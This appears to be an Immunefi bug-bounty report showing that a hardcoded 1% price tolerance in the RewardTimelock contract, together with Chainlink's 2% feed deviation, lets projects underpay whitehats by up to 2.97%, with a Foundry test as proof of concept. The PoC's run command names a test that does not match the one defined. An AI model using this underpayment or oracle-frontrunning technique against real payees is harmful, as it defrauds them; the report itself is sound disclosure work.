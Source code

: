 # Projects can pay rewards at up to 2.97% below market value due to hardcoded price deviation tolerance

Submitted  28 days  ago by @marchev (Whitehat)  for  [Boost | Immunefi Arbitration]

----------

Report ID: #29744

Report type: Smart Contract

Has PoC?: Yes

Target: https://github.com/immunefi-team/vaults/blob/main/src/RewardTimelock.sol

Impacts

-   Theft of unclaimed royalties

## Details

Due to a hardcoded setting in the protocol (`PRICE_DEVIATION_TOLERANCE_BPS`) allowing for a 1% price deviation of whitehat awards when paid in non-native tokens and the potential 2% deviation for Chainlink's price feeds for some tokens (e.g. ARB, ENS, FXS, etc.), there's a risk that whitehat hackers could be underpaid by up to 2.97%. This issue arises when the actual market price of an asset falls slightly, such as by 1.99%, which doesn't trigger an oracle update. This results in a temporarily inflated asset price reported by the Chainlink price oracle. This combined with the ability to pay a reward with a deviation of 1% could be exploited by projects to underpay whitehats.

## Vulnerability Details

The vulnerability centers around the  `RewardTimelock`  smart contract, which handles reward payouts to whitehats during arbitration. Projects specify the dollar value of the award, and after a cooldown period, they can pay in tokens. The smart contract checks if the token amount matches the dollar value, allowing a 1% deviation. However, some tokens have a 2% price deviation in their Chainlink price feeds. If the token's market price drops just below 2%, a project can pay the whitehat less than the full market value, exploiting the gap up to 2.97%:

```
100 - ((100 - 1.99%) * 99%) = 2.97%

```

Furthermore, projects have the capability to exploit the vulnerability even when the price drops more than 2% below the oracle price. They can do this by frontrunning the transaction meant to update the Oracle price feed. This maneuver provides a significant safety margin.

**Example:**

1.  A project owes a whitehat $100,000, paid in ARB tokens.
2.  After the cooldown, the ARB/USD price by the oracle is $1.60, but the market price is $1.5688.
3.  The project pays 61,785 ARB instead of the 63,742.99 ARB due at market rates.

While the price oracle price deviation cannot be avoided, adjusting the hardcoded  `PRICE_DEVIATION_TOLERANCE_BPS`  to be more flexible and specific to token's price feed could mitigate this issue to a certain extent. This is especially important for feeds that update less frequently as indicated by a 2% deviation and a 86400s heartbeat. It should be noted that all Chainlink price feeds on mainnet with a deviation of 2% have a hearbeat of 86400s which implies they are meant to update less frequently which reduces the need for a favorable price deviation tolerance as high as 1%.

## Impact Details

The hardcoded deviation combined with Chainlink's deviation can lead to significant losses for whitehats. This risk is medium, as it depends on specific price feed deviations (2%) and market conditions. The severity is also considered medium due to the financial impact on whitehats. A more adaptable configuration for the reward value deviation could mitigate the issue.

### Proof of concept

## Proof of Concept

To illustrate the vulnerability, I provide a coded PoC which demonstrates its impact. Add the following test case to  `RewardTimelock.t.sol`:

```sol
    function test_project_can_pay_reward_at_up_to_2_97_percent_below_market_value() public {
        // Token in which the award is paid
        ERC20PresetMinterPauser token = new ERC20PresetMinterPauser("Arbitrum", "ARB");
        token.mint(address(vault), 1_000_000e18);

        uint256 ARB_USD_PRICE_SCALE = 1e8;

        uint256 arbUsdOraclePrice = 1.60e8;   // ARB/USD oracle price = 1.60000000
        uint256 arbUsdMarketPrice = 1.5688e8; // ARB/USD market price = 1.56880000 (1.95% below oracle price)
                                              // NOTE: Deviation for ARB/USD chainlink oracle = [-2%; 2%].
                                              // Thus, -1.95% below oracle price does not trigger an oracle  update.

        uint256 dollarAmount = 100_000;
        uint256 tokenAmountPerOraclePrice = (dollarAmount * 1e18 * ARB_USD_PRICE_SCALE) / arbUsdOraclePrice;
        uint256 tokenAmountPerOraclePriceMinus1Percent = (tokenAmountPerOraclePrice * 99_00) / 100_00;
        uint256 tokenAmountPerMarketPrice = (dollarAmount * 1e18 * ARB_USD_PRICE_SCALE) / arbUsdMarketPrice;

        // set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        uint256 nonce = rewardTimelock.vaultTxNonce(address(vault));
        bytes32 txHash = rewardTimelock.getQueueTransactionHash(address(this), dollarAmount, address(vault), nonce);

        // Mock vaultIsInArbitration
        vm.mockCall(
            address(arbitration),
            abi.encodeCall(arbitration.vaultIsInArbitration, (address(vault))),
            abi.encode(true)
        );

        _sendTxToVault(
            address(rewardTimelock),
            0,
            abi.encodeCall(rewardTimelock.queueRewardTransaction, (address(this), dollarAmount)),
            Enum.Operation.Call
        );
        assertEq(rewardTimelock.vaultTxNonce(address(vault)), nonce + 1);

        vm.warp(block.timestamp + rewardTimelock.txCooldown());
        assertTrue(rewardTimelock.canExecuteTransaction(txHash));

        Rewards.ERC20Reward[] memory erc20Rewards = new Rewards.ERC20Reward[](1);
        erc20Rewards[0] = Rewards.ERC20Reward({ token: address(token), amount: tokenAmountPerOraclePriceMinus1Percent });

        // Mock priceConsumer
        vm.mockCall(
            address(priceConsumer),
            abi.encodeCall(priceConsumer.tryGetSaneUsdPrice18Decimals, (address(token))),
            abi.encode(uint256(arbUsdOraclePrice) * 1e10)
        );

        _sendTxToVault(
            address(rewardTimelock),
            0,
            abi.encodeCall(rewardTimelock.executeRewardTransaction, (txHash, 0, erc20Rewards, 0, 50_000)),
            Enum.Operation.Call
        );
        assertEq(token.balanceOf(address(this)), tokenAmountPerOraclePriceMinus1Percent);

        uint256 whitehatLossAbsolute = tokenAmountPerMarketPrice - tokenAmountPerOraclePriceMinus1Percent;
        uint256 whitehatLossPercentage = whitehatLossAbsolute * 100_00 / tokenAmountPerMarketPrice;

        console.log("--------------------------------------");
        console.log("ARB/USD oracle price = %s (8 decimals)", arbUsdOraclePrice);
        console.log("ARB/USD market price = %s (8 decimals)", arbUsdMarketPrice);
        console.log("--------------------------------------");
        console.log("Dollar amount: $%s", dollarAmount);
        console.log("Expected ARB amount (per market price): %s", tokenAmountPerMarketPrice);
        console.log("Actual ARB amount (per oracle price minus 1 percent): %s", tokenAmountPerOraclePriceMinus1Percent);
        console.log("Loss for whitehat (absolute): %s", whitehatLossAbsolute);
        console.log("Loss for whitehat (%): %s", getPercentageString(whitehatLossPercentage), "%");
        console.log("--------------------------------------");
    }

```

Run the PoC via the following command:

```sh
forge test --mt "test_project_can_pay_reward_at_up_to_2_99_percent_below_market_value" -vvvvv

```

----------
